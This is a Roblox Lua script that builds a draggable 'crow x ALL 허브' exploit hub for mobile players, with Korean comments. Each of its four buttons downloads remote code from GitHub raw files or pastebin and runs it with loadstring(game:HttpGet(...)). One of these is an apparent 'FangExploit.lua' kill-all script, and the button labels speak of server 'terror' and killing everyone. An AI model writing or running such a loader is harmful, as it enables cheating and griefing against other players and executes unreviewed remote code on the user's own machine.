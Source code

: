 local player = game.Players.LocalPlayer  
local playerGui = player:WaitForChild("PlayerGui")  
  
-- ScreenGui 생성  
local gui = Instance.new("ScreenGui")  
gui.Name = "MobileHub"  
gui.ResetOnSpawn = false  
gui.Parent = playerGui  
  
-- MainFrame (허브 UI 전체)  
local mainFrame = Instance.new("Frame")  
mainFrame.Size = UDim2.new(0, 250, 0, 180)  
mainFrame.Position = UDim2.new(0.5, -125, 0.4, -90)  
mainFrame.BackgroundColor3 = Color3.fromRGB(10, 10, 10)  -- 찐검정 배경  
mainFrame.BorderSizePixel = 0  
mainFrame.Parent = gui  
  
-- TitleBar (드래그 가능 영역)  
local titleBar = Instance.new("Frame")  
titleBar.Size = UDim2.new(1, 0, 0, 30)  
titleBar.BackgroundColor3 = Color3.fromRGB(25, 25, 25)  
titleBar.BorderSizePixel = 0  
titleBar.Parent = mainFrame  
  
-- "ALL 허브" 텍스트 추가 (찐검정 배경에 흰색 글씨)  
local allHubLabel = Instance.new("TextLabel")  
allHubLabel.Size = UDim2.new(1, 0, 0, 30)  
allHubLabel.Position = UDim2.new(0, 0, 0, 0)  
allHubLabel.Text = "crow x ALL 허브"  
allHubLabel.TextColor3 = Color3.fromRGB(255, 255, 255)  -- 흰색 글씨  
allHubLabel.TextSize = 20  
allHubLabel.Font = Enum.Font.SourceSansBold  
allHubLabel.BackgroundTransparency = 1  
allHubLabel.Parent = mainFrame  
  
-- 허브 UI 내용 예제 (제작자 표시)  
local textLabel = Instance.new("TextLabel")  
textLabel.Size = UDim2.new(1, 0, 1, -30)  
textLabel.Position = UDim2.new(0, 0, 0, 30)  
textLabel.Text = "Made by crow_0_inf(콘솔x)"  
textLabel.TextColor3 = Color3.fromRGB(255, 255, 255)  
textLabel.BackgroundTransparency = 1  
textLabel.Parent = mainFrame  
  
-- 버튼 생성 함수  
local function createButton(text, position, callback)  
    local button = Instance.new("TextButton")  
    button.Size = UDim2.new(0.4, 0, 0, 30)  
    button.Position = position  
    button.Text = text  
    button.TextColor3 = Color3.fromRGB(0, 0, 0)  
    button.TextSize = 18  
    button.BackgroundColor3 = Color3.fromRGB(255, 0, 0)  
    button.Parent = mainFrame  
  
    local buttonCorner = Instance.new("UICorner")    
    buttonCorner.CornerRadius = UDim.new(0, 10)    
    buttonCorner.Parent = button    
  
    button.MouseButton1Click:Connect(callback)    
    return button  
end  
  
-- 버튼 생성  
local topLeftButton = createButton("랜부 테러", UDim2.new(0.05, 0, 0.2, 0), function()  
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Dain29292929/Lang/refs/heads/main/Protected_5412012837486253.txt"))()  
end)  
  
local topRightButton = createButton("팽부 올킬", UDim2.new(0.55, 0, 0.2, 0), function()  
    getgenv().exclude_me = false  
    getgenv().kill = true  
    getgenv().fire = false  
    local func = ({pcall(loadstring, game:HttpGet("https://raw.githubusercontent.com/xsinew/scripts/refs/heads/main/FangExploit.lua"))})[2]  
    pcall(func, func)  
end)  
  
-- "사이틱 허브 실행" 버튼 추가 (변경됨)  
local bottomLeftButton = createButton("사이틱 허브 실행", UDim2.new(0.05, 0, 0.75, 0), function()  
    loadstring(game:HttpGet('https://raw.githubusercontent.com/crow-max-0/Sc-/refs/heads/main/README.md'))()  
end)  
  
-- "hello 허브" 버튼 추가  
local bottomRightButton = createButton("hello 허브", UDim2.new(0.55, 0, 0.75, 0), function()  
    loadstring(game:HttpGet('https://pastebin.com/raw/86uWiF9m'))()  
end)  
  
-- 허브 보이기/숨기기 버튼  
local settingsButton = Instance.new("TextButton")  
settingsButton.Size = UDim2.new(0, 50, 0, 50)  
settingsButton.Position = UDim2.new(0, 10, 0.5, -25)  
settingsButton.Text = "⚙️"  
settingsButton.TextColor3 = Color3.fromRGB(255, 255, 255)  
settingsButton.BackgroundColor3 = Color3.fromRGB(30, 30, 30)  
settingsButton.Parent = gui  
  
mainFrame.Visible = false  
settingsButton.MouseButton1Click:Connect(function()  
    mainFrame.Visible = not mainFrame.Visible  
end)  
  
-- 🛠️ 드래그 기능  
local UserInputService = game:GetService("UserInputService")  
local dragging, dragInput, dragStart, startPos  
  
titleBar.InputBegan:Connect(function(input)  
    if input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch then  
        dragging = true  
        dragStart = input.Position  
        startPos = mainFrame.Position  
  
        input.Changed:Connect(function()    
            if input.UserInputState == Enum.UserInputState.End then    
                dragging = false    
            end    
        end)    
    end  
end)  
  
titleBar.InputChanged:Connect(function(input)  
    if input.UserInputType == Enum.UserInputType.MouseMovement or input.UserInputType == Enum.UserInputType.Touch then  
        dragInput = input  
    end  
end)  
  
UserInputService.InputChanged:Connect(function(input)  
    if dragging and input == dragInput then  
        local delta = input.Position - dragStart  
        local newX = startPos.X.Offset + delta.X  
        local newY = startPos.Y.Offset + delta.Y  
        mainFrame.Position = UDim2.new(startPos.X.Scale, newX, startPos.Y.Scale, newY)  
    end  
end)
